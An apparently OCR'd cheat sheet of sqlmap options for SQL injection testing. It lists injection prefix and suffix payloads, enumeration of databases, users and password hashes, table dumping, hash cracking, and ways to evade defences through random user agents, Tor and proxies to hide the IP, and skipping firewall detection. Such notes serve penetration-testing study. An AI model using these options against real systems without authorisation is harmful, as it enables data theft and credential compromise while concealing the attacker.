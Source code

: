 - Fine tune
  - --prefix="%'))" 
  - --suffix="-- -"
  - Level = extend vectors
    - --level[1-5]
  - Risk = risk of entry loss or DoS
    - --risk[1-3]

- DB Enum
  - --banner
  - --current-user
  - --current-db
  - --hostname
  - --is-dba
  - --passwords
  
- Table Enum
  - -D DB_NAME
  - --tables / -T tbName
  - --columns
  - --dump | --dump-all
  - --dump-format HTML,SQLITE
  - -c Col1,Col2
    - --start=ROW --stop=ROW
  - --where="name LIKE 'f%'"
  - --exclude-sysdbs = no sstem dbN
  
- Structure
  - --schema == architecture of all tables
  - --search = the rest of command
    - -T table = search this table
    - -c Column
  - --passwords = find+crack hashses

### Bypass protection
- --csrf-token = automatically searchs for fresh tokens for next request
  - --csrf-token="tokenName"
- --randomize=PAR_NAME
- --random-agent
- --eval = hash of value with python code
  - --eval="import hashlib; h=hashlib.md5(id).hexdigest()" 

- Hide IP
  - --proxy=socks4:://IP"
  - --proxy-file
  - --tor
    - --check-tor

- Firewall
  - --skip-waf = skip firewall identification

- User-agent
  - --random-agent
